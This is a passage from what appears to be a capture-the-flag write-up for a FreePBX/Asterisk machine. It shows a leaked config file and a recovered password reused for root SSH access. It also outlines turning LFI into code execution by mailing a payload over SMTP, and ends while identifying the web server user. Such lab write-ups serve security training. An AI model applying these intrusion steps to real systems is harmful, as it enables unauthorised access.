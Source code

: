 ```
AMPADMINLOGO=logo.png

AMPEXTENSIONS=extensions

ENABLECW=no
ZAP2DAHDICOMPAT=true

MOHDIR=mohmp3

AMPMODULEXML=http://mirror.freepbx.org/
AMPMODULESVN=http://mirror.freepbx.org/modules/
AMPDBNAME=asterisk

ASTETCDIR=/etc/asterisk
ASTMODDIR=/usr/lib/asterisk/modules
ASTVARLIBDIR=/var/lib/asterisk
ASTAGIDIR=/var/lib/asterisk/agi-bin
ASTSPOOLDIR=/var/spool/asterisk
ASTRUNDIR=/var/run/asterisk
ASTLOGDIR=/var/log/asteriskSorry! Attempt to access restricted file.
```
Here, we can see repeatedly more than once the password ```jEhdIekWmdjE```, we can test if this box is affected from a password reuse vulnerability.  
We can try to ssh as root into the box using the the discovered password, and as we can se we do get a prompt  

### Method 2 - php/webapps/37637.pl getting RCE from LFI using SMTP
Always by using 37637.pl, we can get an RCE from a LFI.  
From the initial nmap scan, we can see that port 25 (smtp) is opened.  
We know that using smtp we can send email connecting to port 25, when we send emails, a file is written under /var/mail/%RCPT_USER%.  
Now we need to check what is the user that is executing the webserver, so that then, we can send an email with a payload to that user, read the email using LFI and get a shell.  
To check what is the webserver user we can use the LFI vulnerability and request ```/proc/self/status```, and we'll get the following:
```
Name:	httpd
State:	R (running)
SleepAVG:	89%
Tgid:	3589
Pid:	3589
PPid:	3488
TracerPid:	0
Uid:	100	100	100	100
Gid:	101	101	101	101
FDSize:	32
Groups:	101
VmPeak:	   35900 kB
VmSize:	   35888 kB
VmLck:	       0 kB
VmHWM:	   16428 kB
VmRSS:	   16428 kB
VmData:	   12336 kB
VmStk:	      88 kB
VmExe:	     300 kB
VmLib:	   20928 kB
VmPTE:	      72 kB
StaBrk:	0919c000 kB
Brk:	09bcc000 kB
StaStk:	bfbb2b20 kB
ExecLim:	08497000
Threads:	1
```